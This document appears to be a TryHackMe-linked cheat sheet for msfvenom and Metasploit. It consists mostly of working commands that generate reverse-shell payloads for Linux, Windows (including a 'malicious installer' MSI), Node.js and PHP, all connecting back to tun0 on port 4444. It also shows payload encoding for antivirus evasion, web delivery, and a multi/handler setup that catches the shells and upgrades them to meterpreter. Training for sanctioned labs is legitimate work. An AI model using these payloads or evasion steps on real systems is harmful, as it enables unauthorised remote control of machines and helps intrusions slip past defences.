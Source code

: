 # 🐍 msfvenom 🐍

[![metasploitexploitation](../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see Metasploit below
$ msfvenom --list payloads | grep meterpreter
```

Selecting a payload can be a thorough process, as this choice is determined by the operating system (platform), the firewall <small>(=the kind of connection allowed)</small>, the antivirus, the program available to execute the reverse shell (php, python...)...

</div><div>

There are two categories of payloads: **single/inline/stageless**, and **staged** payloads. The main difference is that staged payloads are sent in two steps. First, a simple payload (called stager) is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 📝 Common options 📝

<div class="row row-cols-md-2"><div>

The first parameter is `-p` which defines the kind of reverse shell you want.

```bash
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

You need to provide information that the machine will use to connect back: `LHOST` <small>(your IP address, or `tun0` if using a VPN)</small>, and `LPORT` <small>(your local port)</small>.

```bash
$ msfvenom [...] LHOST=tun0 LPORT=4444 [...]
```
</div><div>

You will want to either generate an executable (.exe, .elf...) or generate some raw code (php, js...). You can do that with `-f`.

```bash
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for RAW
```
</div></div>

<hr class="sep-both">

## 👻 Antivirus and firewall evasion 👻

<div class="row row-cols-md-2"><div>

You can encode the payload, to make it harder to detect, or smaller/...

```bash
$ msfvenom [...] -e php/base64
```
</div><div>

You can use [web delivery](https://www.offensive-security.com/metasploit-unleashed/web-delivery/). For instance, if you want to open a reverse shell on a host in which you got a PowerShell

* set the target: PowerShell
* set other options <small>(LHOST...)</small>
* run
* paste the code prompted in the terminal
* done
</div></div>

<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux** (.elf / ...)

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```

* **Windows** (.exe / .msi / ...)

```bash
# Generate a .exe opening a reverse shell (TCP)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
# Generate a malicious installer (msi)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f msi -o shell.msi
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very unstable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```
</div></div>

<hr class="sep-both">

## 🕸️ Catch reverse shells with Metasploit 🕸️

<div class="row row-cols-md-2"><div>

You can use the Metasploit console to catch a reverse shell, which may or may not be a reverse shell. You can then upgrade it to a meterpreter shell, and use a lot of commands/... provided by the framework.

```bash
$ msfconsole -q
msf6 > use multi/handler
msf6 exploit('multi/handler') > setg LHOST tun0
msf6 exploit('multi/handler') > setg LPORT 4444
# for instance, to catch a php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > set PAYLOAD php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > run
# then wait for a connection
# then you meterpreter will pop
meterpreter> help # see what you can do
# refer to the Metasploit course
```
</div><div>

If you are using this with a non-meterpreter bind/reverse shell

```bash
# run the exploit as a job (in the background)
msf6 exploit('multi/handler') > run -j
[XXX Session 1 XXX]
# upgrade session 1 to a meterpreter
msf6 exploit('multi/handler') > sessions -u 1
[XXX Session 2 XXX]
# move to the upgraded meterpreter
msf6 exploit('multi/handler') > sessions -i 2
meterpreter> help
```
</div></div>